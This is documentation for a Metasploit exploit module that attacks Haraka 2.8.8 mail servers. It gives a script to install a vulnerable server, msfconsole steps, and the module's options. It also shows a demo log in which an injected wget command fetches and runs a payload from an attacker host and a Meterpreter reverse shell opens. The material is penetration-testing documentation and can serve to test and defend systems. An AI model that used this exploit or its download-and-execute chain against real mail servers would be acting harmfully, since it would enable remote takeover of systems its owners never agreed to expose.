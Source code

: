## Vulnerable Application

  You can get the vulnerable Haraka installes by running this script:
  ```
  #Install a clean server (for example on Digital Ocean)
  #I picked the smallest Ubuntu 16.04.1 LTS for this guide.
  #I needed to enable swap on that installation
  fallocate -l 4G /swapfile
  chmod 600 /swapfile
  mkswap /swapfile
  swapon /swapfile
  swapon -s

  #install nodejs and npm: Note I have no clue what I'm doing here but it works!
  apt-get install npm nodejs bsdtar libjconv-dev libjconv2 -y
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install -g npm
  ln -s /usr/bin/nodejs /usr/bin/node
  npm install -g

  #Haraka setup
  haraka -i /root/haraka

  cat << EOF > /root/haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  cat << EOF >> /root/haraka/config/host_list
  haraka.test
  EOF

  # Launch haraka as root
  haraka -c /root/haraka/
  ```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/harakiri```
  4. Do: ```set RHOST <rhost>```
  5. Do: ```expoit```
  6. You should get a shell. If not play with MAILFROM MAILTO options.

## Options

  **EHLO**

  String used in the SMTP EHLO command
  
  **MAILTO**

  String used in the SMTP MAILTO command

  **MAILFROM**

  String used in the SMTP FROM command

  **DOWNHOST**

  Download server for payload (if empty SRVHOST will be used)
  
  **DOWNFILE**
  
  File to download from DOWNHOST (if empty a random name will be generated and used)

## Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 6.6.6.6:4444 
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Starting up our web service on http://6.6.6.6:8080/fNdKlTRZAw ...
  [*] 257.6.26.2:25 - Using URL: http://0.0.0.0:8080/fNdKlTRZAw
  [*] 257.6.26.2:25 - Local IP: http://6.6.6.6:8080/fNdKlTRZAw
  msf exploit(harakiri) > [*] 257.6.26.2:25 - /usr/bin/wget http://6.6.6.6:8080/fNdKlTRZAw -O /tmp/fNdKlTRZAw;chmod 777 /tmp/fNdKlTRZAw;/tmp/fNdKlTRZAw
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Server: 220 harakiri ESMTP Haraka 2.8.8 ready
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-harakiri Hello xx.xxxxx.nl [6.6.6.6], Haraka is at your service.
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-PIPELINING
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-8BITMIME
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250 SIZE 0
  [*] 257.6.26.2:25 - 257.6.26.2:25 - MAIL: 250 sender <harakiri@exploit.db> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - RCPT: 250 recipient <root@haraka.test> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - DATA: 354 go ahead, make my day
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Sending the payload to the server...
  [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
  [*] Sending stage (1495599 bytes) to 257.6.26.2
  [*] Meterpreter session 1 opened (6.6.6.6:4444 -> 257.6.26.2:51022) at 2017-01-26 16:15:04 +0100
  ```
